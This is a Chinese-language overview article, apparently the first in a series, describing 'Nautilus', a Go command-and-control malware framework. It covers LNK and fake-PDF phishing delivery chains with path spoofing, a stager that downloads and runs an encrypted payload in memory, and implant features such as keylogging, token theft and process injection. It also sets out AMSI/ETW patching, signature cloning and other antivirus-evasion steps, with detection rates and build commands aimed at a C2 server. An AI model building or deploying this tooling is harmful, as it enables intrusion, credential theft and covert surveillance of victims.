


# Nautilus C2 — 总览与全景

> **⚠️ 法律声明**：本文内容仅供授权安全测试和教育研究使用。未经授权对任何系统使用相关技术属于违法行为。
>
> **时效性说明**：免杀技术具有很强的时效性，本文测试结果基于2026年6月的杀软版本，随着杀软规则的更新，检测结果可能会发生变化。

## 1. 项目概述
项目地址：https://github.com/nk7667/VulnScope
Nautilus 是一个 Go 语言编写的 C2（Command & Control）框架，包含服务端、植入体、分阶段加载器三个核心组件。支持 **LNK 链路** 和 **PDF 链路** 两条独立投递通道，均集成完整免杀技术栈。项目核心目标：**在不依赖商业工具的前提下，实现前沿 C2 的核心能力，并在国内主流沙箱达到极低检出率。**

### 投递链路

Nautilus 提供两条独立的初始访问通道：

| 链路 | 入口 | 流程 | 诱饵 |
|------|------|------|------|
| **LNK 链路** | `challenge.lnk` | LNK → wscript.exe → update.vbs → payload + notepad | CTF_challenge.txt |
| **PDF 链路** | `简历.pdf.exe` | 双击 → 释放 decoy.pdf → 弹出 PDF + C2 连接 | 简历.pdf |
| **Stager** | `stager.exe` | 反沙箱 → HTTP下载 → XOR解密 → EnumWindows回调执行 | 无 |

#### LNK 链路原理

LNK 链路利用 Windows 快捷方式的信任机制进行钓鱼投递：

```
受害者解压 challenge.zip
    |
    v
看到: challenge.lnk (txt图标, 右键属性显示notepad.exe)
看不到: assets\data\ (Hidden+System属性隐藏)
    |
    v
双击 challenge.lnk
    |
    v
wscript.exe "assets\data\update.vbs"
    |                       ← LNK TargetPath = wscript.exe（不触发cmd.exe YARA规则）
    v
update.vbs 执行:
  1. ScriptFullName 自定位 → 找到 assets\data\ 目录
  2. B64D() 自实现Base64解码 → 得到植入体名+诱饵名（不依赖MSXML2 COM）
  3. ws.Run "fish.exe", 0  → 隐藏窗口运行植入体
  4. ws.Run "CTF_challenge.txt", 1 → 正常窗口打开notepad诱饵
```

**关键免杀设计**：

| 设计点 | 原因 | 对抗的检测 |
|--------|------|-----------|
| `wscript.exe` 替代 `cmd.exe` | cmd.exe 是 YARA 规则重点监控对象 | 避免触发 cmd.exe 相关 YARA 规则 |
| VBS 脚本 + Base64 编码 | bat 脚本直接暴露命令，易被静态扫描 | 避免触发 .bat 文件 YARA 规则 |
| 自实现 B64D() 函数 | MSXML2.DOMDocument COM 是 APT 检测规则目标 | 避免 MSXML2 COM 调用痕迹 |
| `assets\data` 目录名 | `__MACOSX` 是 macOS 压缩包特征，被 YARA 规则监控 | 避免触发 __MACOSX YARA 规则 |
| Hidden+System 属性 | 普通用户在资源管理器中看不到恶意文件 | 降低人工排查概率 |

#### CVE-2025-9491 ExpString 欺骗

LNK 文件右键"属性"对话框会显示目标路径——这是蓝队最直接的判断手段。Nautilus 利用 **ExpString 欺骗**（CVE-2025-9491）让 LNK 属性显示合法程序路径：

```
LNK 文件结构:
├── LinkHeader (HasExpString=0x200 标志位)
├── LinkTargetIDList → wscript.exe + update.vbs (真实执行路径)
├── EnvironmentVariableDataBlock (ExpString) → notepad.exe (伪造显示路径)
└── ...

右键属性显示: 目标 = C:\Windows\System32\notepad.exe  ← ExpString 伪造
实际执行:     wscript.exe "assets\data\update.vbs"      ← LinkTargetIDList 真实路径
```

ExpString Block 结构（788 字节）：

```
BlockSize(4) | BlockSignature 0xA0000002(4) | TargetAnsi(260) | TargetUnicode(520)
```

根据诱饵类型选择不同的伪造目标：

| 诱饵类型 | 伪造的 ExpString 目标 |
|---------|----------------------|
| txt | `C:\Windows\System32\notepad.exe` |
| pdf | `C:\Program Files\Microsoft Edge\msedge.exe` |
| doc | `C:\Program Files\Microsoft Office\Office16\WINWORD.EXE` |
| xls | `C:\Program Files\Microsoft Office\Office16\EXCEL.EXE` |
| folder | `C:\Windows\explorer.exe` |

#### PDF 链路原理

PDF 链路利用 Windows 双扩展名视觉欺骗（`简历.pdf.exe` 看起来像 `简历.pdf`）：

```go
// pdf/dropper_windows.go — 编译期嵌入真实PDF，运行时释放并打开
//go:embed decoy.pdf
var decoyPDF []byte

func DropAndOpenPDF() {
    // 1. 将嵌入的 decoy.pdf 写入 %TEMP%\简历.PDF
    tmpPath := filepath.Join(os.TempDir(), "简历.PDF")
    os.WriteFile(tmpPath, decoyPDF, 0644)
    
    // 2. cmd /c start 打开PDF → 受害者看到正常简历弹出
    cmd := exec.Command("cmd", "/c", "start", "", tmpPath)
    cmd.Start()
    // 3. 同时植入体在后台静默连接 C2
}
```

PDF 链路执行流程：

```
受害者双击 简历.pdf.exe
    |
    v
normalInit() — 随机延迟 + 创建假临时文件（伪装正常程序行为）
    |
    v
evasion: Halo's Gate → AMSI/ETW Patch → DropAndOpenPDF()
    |                                 ← 受害者看到简历PDF弹出!
    v
NtdllUnhook → AntiSandbox → AntiDebug
    |
    v
C2连接 → 注册上线 → 主循环（心跳+任务轮询）
```

**LNK 与 PDF 链路的关键差异**：

| 差异 | LNK 链路 | PDF 链路 |
|------|---------|---------|
| 诱饵展示方式 | VBS 脚本 `ws.Run` 打开 | `//go:embed` 嵌入+释放+打开 |
| 提权 | `TryElevate()` (SeDebugPrivilege) | 不提权（保持低权限更隐蔽） |
| 入口伪装 | ExpString 欺骗显示合法程序 | PDF 图标 + 双扩展名 |
| 需要额外文件 | 需要 VBS + 诱饵文件 | 单文件（PDF 嵌入在 exe 中） |
| Zone.Identifier | 7z 打包保留隐藏属性，清除 ADS | 无需处理（单文件投递） |

#### Stager（分阶段加载器）

Stager 是第一阶段轻量加载器（~2MB），仅包含反沙箱、远程下载、XOR 解密和回调执行能力，不包含任何 C2 通信功能：

```go
func main() {
    if antiSandbox() { os.Exit(0) }  // CPU<2核 / uptime<10min
    
    // 1. HTTP下载加密载荷（循环重试直到200）
    payload := httpGet(downloadURL)
    
    // 2. XOR解密（密钥编译期注入，默认0x55）
    for i, b := range payload { payload[i] ^= key }
    
    // 3. NtAllocateVirtualMemory(RW) → 写入 → NtProtectVirtualMemory(RX)
    //    所有DLL/API名XOR 0x37加密存储
    
    // 4. EnumWindows回调执行
    enumW.Call(baseAddr, 0)
}
```

**Stager 优势**：
- 体积小（~2MB），不含 C2 功能代码，静态特征极少
- 所有 API 名 XOR 加密，strings 扫描看不到任何敏感字符串
- 分阶段加载：先投递轻量 Stager，再从 C2 下载完整 Payload
- Payload 全程不落地磁盘（内存中 XOR 解密 + 回调执行）

### 环境说明

- **Go 版本**：1.25+ windows/amd64
- **目标系统**：Windows 10/11 x64
- **编译参数**：`garble -literals -seed=random -tiny -buildvcs=false -gcflags="all=-l -N -pclntab=empty" -trimpath -s -w`
- **额外混淆**：`GARBLE_EXPERIMENTAL_CONTROLFLOW=1` 控制流混淆（可选）

***

## 2. 架构设计



**架构说明**：

- **服务端**：部署在 VPS 上，提供 Web UI 管理界面、实时消息推送、认证登录和任务管理功能
- **Stager**：分阶段加载器，体积小（约2MB），仅包含反沙箱检测、远程下载、XOR解密和内存执行能力
- **Payload**：完整植入体，从服务端下载后在内存中解密执行，不落地磁盘
- **通信协议**：HTTP 请求伪装为前端埋点数据上报，数据使用 AES-GCM 加密

***

## 3. 前端 Web UI

Nautilus 服务端内嵌一个单文件暗色主题管理界面（`embed.FS`），提供 5 个功能 Tab 面板，所有操作通过 WebSocket 实时推送结果。

### 3.1 登录页

- 认证方式：HMAC-SHA256 签名 Token
- 默认账号：`nautilus` / `nautilus2026`
- 登录后 Token 存储在 `localStorage`，后续 API 请求携带 `Authorization` 头

### 3.2 Terminal Tab

- **快捷按钮栏**：`sysinfo` / `proclist` / `privinfo` / `listdir` / `kill` / `inject`
- **命令输入**：支持 `exec`（cmd）和 `ps`（PowerShell）自由输入
- **实时输出**：终端风格输出区，命令/结果/错误分色显示，WebSocket 推送回显

### 3.3 Files Tab

- **目录浏览**：输入路径 → `Browse` → 列出远程目录内容
- **文件上传**：点击上传或 **拖拽上传**（drag-drop），Base64 编码传输
- **文件下载**：选中文件 → 下载到本地
- **文件删除**：`Delete` 按钮，二次确认

### 3.4 Screenshot Tab

- **截屏捕获**：`Capture Screenshot` 按钮 → 植入体截屏 → PNG 回传
- **卡片画廊**：截屏结果以缩略图卡片展示，点击可 **全屏查看**
- **计数统计**：显示累计截屏数量

### 3.5 Token Tab

- **Enumerate**：枚举当前进程可用 Token（用户/权限级别）
- **Steal Token**：窃取指定进程 Token，**PID 选择对话框**（搜索进程名，可视化选 PID）
- **Make Token**：通过用户名/密码伪造 Token
- **Rev2Self**：恢复原始进程身份

### 3.6 Keylog Tab

- **Start Keylog**：启动键盘记录器，按窗口标题分组
- **Stop & Retrieve**：停止记录并获取结果，按 `[窗口标题]` 分组展示按键序列
- **状态指示**：显示 Keylog 运行/停止状态

### 3.7 WebSocket 实时推送

| 事件类型 | 说明 |
|---------|------|
| `session_new` | 新植入体上线，自动出现在侧边栏 |
| `session_update` | 会话状态变化（active → stale → dead） |
| `task_result` | 任务结果实时回传到当前 Tab |

***

## 4. 全部任务类型

Nautilus 定义了 20 种任务类型，覆盖命令执行、文件管理、进程操作、权限操作、截屏/键盘记录、Token 管理和退出：

| 任务代码 | 常量名 | 说明 | UI 命令 |
|---------|--------|------|---------|
| `0x0101` | TaskExecCmd | 执行 CMD 命令 | `exec` |
| `0x0102` | TaskExecPS | 执行 PowerShell 命令 | `ps` |
| `0x0201` | TaskFileRead | 读取远程文件（Base64返回） | `fileread` |
| `0x0202` | TaskFileWrite | 写入远程文件（Base64输入） | `filewrite` |
| `0x0203` | TaskFileDelete | 删除远程文件 | `filedel` |
| `0x0204` | TaskListDir | 列出远程目录内容 | `listdir` |
| `0x0301` | TaskProcList | 列出所有进程 | `proclist` |
| `0x0302` | TaskProcKill | 终止指定 PID 进程 | `kill` |
| `0x0401` | TaskPrivInfo | 获取当前进程权限信息 | `privinfo` |
| `0x0402` | TaskSysInfo | 获取系统信息（主机名/IP/OS等） | `sysinfo` |
| `0x0501` | TaskPayload | 远程 Shellcode 载荷执行 | `payload` |
| `0x0502` | TaskInject | 进程注入（PID + Shellcode） | `inject` |
| `0x0601` | TaskScreenshot | 截屏（PNG回传） | `screenshot` |
| `0x0602` | TaskKeylogOn | 启动键盘记录 | `keylogon` |
| `0x0603` | TaskKeylogOff | 停止键盘记录并获取结果 | `keylogoff` |
| `0x0701` | TaskTokenEnum | 枚举可用 Token | `tokens` |
| `0x0702` | TaskTokenSteal | 窃取指定进程 Token | `steal_token` |
| `0x0703` | TaskTokenRev2 | 恢复原始进程身份 | `rev2self` |
| `0x0704` | TaskTokenMake | 伪造 Token（用户名+密码） | `make_token` |
| `0x0F01` | TaskExit | 退出植入体 | `exit` |

任务类型在协议层使用 XOR 加密传输（源码中存储为加密字节切片，运行时解密），避免静态分析提取任务类型枚举。

***

## 5. 服务端能力

### 5.1 HTTP 路由

| 路由 | 方法 | 说明 |
|------|------|------|
| `/api/v1/analytics` | GET | C2 通信端点（植入体心跳/注册/回传） |
| `/nautilus` | GET | C2 通信备用路径 |
| `/ws` | WebSocket | 实时事件推送 |
| `/ui` | GET | Web UI 页面（内嵌 HTML） |
| `/admin/login` | POST | HMAC-SHA256 认证登录 |
| `/admin/sessions` | GET | 会话列表（需 Token） |
| `/admin/task` | POST | 下发任务（需 Token） |
| `/admin/results` | GET | 获取任务结果（需 Token） |
| `/admin/use` | POST | 切换活跃会话（需 Token） |
| `/admin/files/upload` | POST | 文件上传（需 Token） |
| `/admin/files/download` | GET | 文件下载（需 Token） |

### 5.2 控制台命令

服务端同时提供交互式控制台（仅终端模式启用，headless 模式自动禁用）：

| 命令 | 说明 |
|------|------|
| `sessions` | 列出所有会话 |
| `use <session_id>` | 选择活跃会话 |
| `exec <command>` | 执行 cmd 命令 |
| `ps <command>` | 执行 PowerShell 命令 |
| `sysinfo` | 获取系统信息 |
| `listdir <path>` | 列出目录 |
| `proclist` | 列出进程 |
| `kill <pid>` | 终止进程 |
| `inject <pid> <shellcode>` | 进程注入 |
| `screenshot` | 截屏 |
| `keylogon` | 启动键盘记录 |
| `keylogoff` | 停止键盘记录 |
| `tokens` | 枚举 Token |
| `steal-token <pid>` | 窃取 Token |
| `rev2self` | 恢复身份 |
| `make-token <user> <pass>` | 伪造 Token |
| `exit` | 退出控制台 |

### 5.3 会话管理

植入体上线后自动注册为 Session，服务端跟踪三种状态：

| 状态 | 说明 | UI 指示 |
|------|------|---------|
| **active** | 植入体正常心跳 | 绿色圆点 ✅ |
| **stale** | 心跳超时（>2倍间隔） | 黄色圆点 ⚠️ |
| **dead** | 连续多次超时，标记失活 | 红色圆点 ❌ |

***

## 6. C2 协议概览

> 详细协议实现见 [Nautilus (二)：通信协议与数据包格式](#)。

### 数据包格式

```
[Magic 2B][Type 2B][TaskID 4B][DataLen 4B][Data NB]
```

- **Magic**：`0xF175`（固定标识）
- **Type**：消息类型（Register/Heartbeat/Task/TaskResult/FileUpload/FileDownload/SysInfo/Exit）
- **TaskID**：任务唯一 ID（服务端分配）
- **Data**：AES-GCM 加密载荷

### 加密体系

- **传输加密**：AES-256-GCM（防篡改 + 防窃听）
- **密钥协商**：预共享密钥，编译时嵌入
- **Base64 编码**：密文经 Base64 编码后放入 URL 参数 `id=`

### 通信伪装

- **路径**：`/api/v1/analytics?id=<AES-GCM ciphertext base64>&sid=<session_id>`
- **请求头**：完整 Chrome/Firefox/Edge 浏览器头，7种 UA 随机轮换
- **Referer**：随机伪造来源域名（google.com、bing.com、github.com 等）
- **心跳抖动**：间隔时间加入 30% 随机抖动，避免规律性网络行为

***

## 7. 免杀技术概览

> 详细免杀实现见 [Nautilus (四)：免杀体系深度解析](#)。

免杀需要从**运行时行为对抗**、**编译时混淆**、**PE 后处理**三个方向处理。

### 7.1 运行时行为对抗

| 技术 | 说明 |
|------|------|
| **Halo's Gate** | SSN 动态解析，绕过 ntdll inline hook（检测 `jmp` 指令偏移寻找邻近合法 SSN） |
| **间接 Syscall** | `rawSyscall6/12` 直接执行 `SYSCALL` 指令，绕过所有用户态 EDR hook |
| **栈欺骗** | Return Address Spoofing，伪造调用栈使 EDR 回溯分析误判为合法调用链 |
| **AMSI Bypass** | Patch `AmsiScanBuffer` 为 `xor eax,eax; ret`，永远返回 `AMSI_RESULT_CLEAN` |
| **ETW Bypass** | Patch `EtwEventWrite` 为 `ret`，盲化 EDR 的事件采集管道 |
| **Ntdll Unhooking** | 从磁盘读取干净 ntdll 覆盖内存中被 Hook 的 `.text` 段 |
| **回调执行** | `EnumWindows/EnumChildWindows` 随机回调，伪装为合法窗口枚举操作 |
| **Ekko Sleep** | 休眠期加密植入体内存（Timer Queue + AES），绕过 EDR 内存扫描 |
| **反沙箱** | 五维度检测：物理内存(<2GB)、CPU核心(<2)、运行时间(<10min)、用户名(user/sand)、调试器 |

### 7.2 编译时混淆

| 技术 | 说明 |
|------|------|
| **Garble (-literals)** | 字符串常量加密，所有明文字符串编译时转换为运行时解密 |
| **Garble (-controlflow)** | 控制流平坦化混淆，打破函数逻辑结构 |
| **-pclntab=empty** | Go 函数符号表留空，阻断 GoReSym/GoResolver 符号还原 |
| **多层字符串加密** | 源码级预加密：deriveKey 偏移密钥派生 + 位旋转，每个字节独立密钥 |
| **API Hashing** | DLL 名 + API 名全部 XOR 加密存储，运行时 `syscall.NewLazyDLL` 动态解析 |

### 7.3 PE 后处理

| 技术 | 说明 |
|------|------|
| **字符串清零（50+ 安全模式）** | 扫描并清零 50+ 种 Go 运行时指纹、敏感 API 名、项目标识符 |
| **深度清零（30+ 深度模式）** | `-DeepStringZero` 发布版：额外清零 30+ 种 Go runtime 内部字符串（SYSCALL/injectglist/winCallback 等） |
| **Rich Header 清除** | 清除 Go 编译器指纹（Rich → DanS 整段清零） |
| **gopclntab Magic 清零** | 清零 `.gopclntab` 前 64 字节，破坏 Go 符号解析工具 |
| **Section 名标准化** | `.go.buildinfo→.rdata`、`.gopclntab→.data` 等，映射为 MSVC 标准名 |
| **.text 熵值降低** | Shannon 熵值 >6.0 时注入低熵 padding（`0xCC/0x90` 交替），降至 <6.0 |
| **导入表稀释** | 引入 31 个合法 API（来自 8 个系统 DLL），使 IAT 看似正常 GUI 应用 |
| **合法签名注入** | 二进制末尾注入 "Microsoft Visual Studio"、"Copyright Microsoft" 等合法字符串 |
| **Overlay 附加** | 末尾附加 32KB 随机数据（带 `PK\x03\x04` ZIP 文件头签名） |
| **Authenticode 签名克隆** | 从合法软件（如 Microsoft 签名程序）克隆 Authenticode 签名数据到植入体 |

***

## 8. 检测结果



### 检测演进对比

| Build Config | Detection | Key Detection Engines |
|------|------|------|
| 后处理（无 Garble） | 11/72 | BitDefender族(7 OEM) + ClamAV/Sliver |
| Garble(-literals+controlflow)+后处理 | 5/70 | ClamAV/Sliver + CrowdStrike(60%) + Elastic + Malwarebytes + Symantec |
| Garble(-literals)+后处理（无 controlflow） | 5/70 | Same as above |
| Garble+后处理+Microsoft 克隆签名 | 6/69 | Same + SentinelOne(new) |
| **Garble+后处理+深度清零（发布版）** | **4/70** | Bkav Pro + ClamAV/Sliver + Malwarebytes + Symantec |

**关键发现**：

- CrowdStrike 和 Elastic 在深度清零后 **DROP** — 它们依赖 Go runtime 内部字符串（`SYSCALL`、`syscall;ret`、`injectglist` 等）做启发式判定，深度清零切断了这些特征
- Microsoft Defender 已稳定过检（Wacatac/Wacapew 消除）
- 剩余 4 个检出主要来自 ClamAV 的 Sliver 家族泛化签名和静态 AI/ML 模型的启发式分析

***

## 9. 使用方法

### 一键编译（推荐）

```powershell
# 基础编译 + 后处理
.\build.ps1 -C2Addr "https://YOUR_VPS:8443" -Interval 5 -Jitter 30 -EnableStringZero

# 发布版编译（深度清零，最低检出率）
.\build.ps1 -C2Addr "https://YOUR_VPS:8443" -Garble -EnableStringZero -DeepStringZero -SignSource "C:\path\to\legit_signed.exe"

# 同时编译 Stager
.\build.ps1 -C2Addr "https://YOUR_VPS:8443" -BuildStager -StagerURL "https://YOUR_VPS:8443/payload" -DecryptKey "85"

# PDF 链路编译
.\build.ps1 -C2Addr "https://YOUR_VPS:8443" -Chain pdf -PdfName "report" -Garble -EnableStringZero
```

### 编译参数说明

| 参数 | 说明 |
|------|------|
| `-C2Addr` | C2 服务器地址 |
| `-Garble` | 启用 garble 编译混淆（-literals -seed=random） |
| `-ControlFlow` | 启用控制流混淆（需要 `-Garble`） |
| `-EnableStringZero` | 启用 50+ 种敏感字符串清零 |
| `-DeepStringZero` | 启用 30+ 种深度字符串清零（发布版，消除 CrowdStrike/Elastic 检出） |
| `-SignSource <path>` | Authenticode 签名克隆源文件路径 |
| `-Chain pdf` | 使用 PDF 链路（默认 LNK 链路） |
| `-BuildStager` | 同时编译分阶段加载器 |

### 启动服务端

```bash
./fish-server.exe :8443
# 浏览器访问 http://YOUR_VPS:8443/ui
# 默认登录: nautilus / nautilus2026
```

***

## 10. 项目结构

```
nautilus/
├── main.go                        # LNK链路植入体入口
├── shellcode_handler_windows.go   # 载荷执行处理
├── shellcode_handler_linux.go     # Linux载荷处理(stub)
├── build.ps1                      # 统一构建脚本（含所有免杀选项）
├── phish.ps1                      # LNK钓鱼包生成器
├── go.mod / go.sum                # Go模块定义
│
├── pdf/                           # PDF链路（独立包）
│   ├── main.go                    # PDF植入体入口
│   ├── dropper_windows.go         # 释放+打开decoy.pdf
│   ├── shellcode_handler_*.go     # 载荷执行
│   ├── decoy.pdf                  # 内嵌诱饵PDF
│   └── rsrc_amd64.syso            # PDF图标资源
│
├── server/                        # C2服务端
│   ├── main.go                    # HTTP服务器+WebSocket+控制台
│   ├── ui.go                      # Web UI API + HMAC-SHA256认证
│   └── web/index.html             # 内嵌管理界面（暗色主题，5 Tab）
│
├── c2/                            # 通信层
│   ├── encode/packet.go           # 协议编码/解码（AES-GCM + XOR加密任务类型）
│   └── transport/http.go          # HTTP传输（伪装埋点API + 7种UA轮换）
│
├── core/                          # 核心功能
│   ├── exec.go                    # 命令执行(cmd+powershell)
│   ├── fs.go                      # 文件操作
│   ├── process.go                 # 进程管理
│   ├── privilege.go               # 权限信息
│   ├── sysinfo.go                 # 系统信息
│   ├── sysinfo_windows.go         # Windows系统信息实现
│   ├── token_windows.go           # Token操作（Enum/Steal/Make/Rev2）
│   ├── inject_windows.go          # 进程注入（直接syscall路径）
│   ├── screenshot_windows.go      # 截屏（GDI BitBlt）
│   ├── keylog_windows.go          # 键盘记录（窗口标题分组）
│   └── shellcode_windows.go       # Shellcode回调执行
│
├── evasion/                       # 免杀模块
│   ├── crypto.go                  # AES-GCM加密/解密、Base64
│   ├── apiresolve_windows.go      # 多层加密API动态解析
│   ├── direct_syscall_windows.go  # 直接syscall（rawSyscall6/12，绕过EDR hook）
│   ├── ssn_resolve_windows.go     # Halo's Gate SSN动态解析
│   ├── stack_spoof_windows.go     # 调用栈欺骗（Return Address Spoofing）
│   ├── unhook_windows.go          # Ntdll unhooking
│   ├── edr_bypass_windows.go      # AMSI/ETW bypass
│   ├── sleep_ekko_windows.go      # Ekko Sleep加密休眠
│   ├── sleep_obfuscation_windows.go # 休眠混淆（Timer Queue替代Sleep）
│   ├── sandbox.go                 # 五维度反沙箱检测
│   ├── legitimate_apis_windows.go # 导入表稀释（31 APIs from 8 DLLs）
│   └── pe.go                      # PE解析辅助
│
├── stager/                        # 分阶段加载器
│   └── main_windows.go            # Stager入口
│
└── evasion-tools/                 # PE后处理工具
    ├── postprocess.go             # PE后处理主工具
    ├── pepatch.go                 # PE时间戳修改
    ├── sigclone.go                # Authenticode签名克隆
    ├── pesectionobf.go            # Section名标准化+熵值降低
    ├── rsrcinject.go              # 资源注入
    └── genico.go                  # 图标资源生成
```

***

## 11. 免杀反模式

在实际测试中发现了一些**适得其反**的免杀方法：

| 方法 | 问题 | VT检出增量 |
|------|------|---------|
| garble `-tiny` | Go 1.25 `nosplit stack overflow` 运行时崩溃 | 程序无法运行 |
| 修改 PE section 名为随机字符串 | 触发 Microsoft ML 标记 `Wacatac.B!ml` | +1 |
| UPX/MPRESS 压缩 | 多个引擎标记为"packed malware" | +5 |
| 注入高熵代码混淆 | 提升 `.text` 段熵值，触发熵异常检测 | +2 |
| 加密 `.text` 段 (EkkoSleep) | Timer Queue 回调无法执行加密代码 | 程序崩溃 |

**核心原则**：免杀不是"越复杂越好"，而是"越干净越好"。一个没有可疑特征的标准 PE 文件，比经过大量修改的异常 PE 更容易通过检测。

***

## 12. 系列文章导航

| 章节 | 内容 | 链接 |
|------|------|------|
| **(一) 总览与全景** | 项目概述、架构、Web UI、任务类型、免杀概览 | 本文 |
| **(二) 通信协议与数据包格式** | AES-GCM加密、数据包编码/解码、HTTP传输伪装、WebSocket推送 | 待发布 |
| **(三) 前端与交互** | Web UI 实现、HMAC-SHA256认证、5 Tab交互逻辑、PID选择器 | 待发布 |
| **(四) 免杀体系深度解析** | Halo's Gate、间接Syscall、栈欺骗、Ekko Sleep、PE后处理管道、检测演进 | 待发布 |


**法律声明**：本项目仅供授权安全测试和教育研究使用。未经授权对任何系统使用本工具属于违法行为。
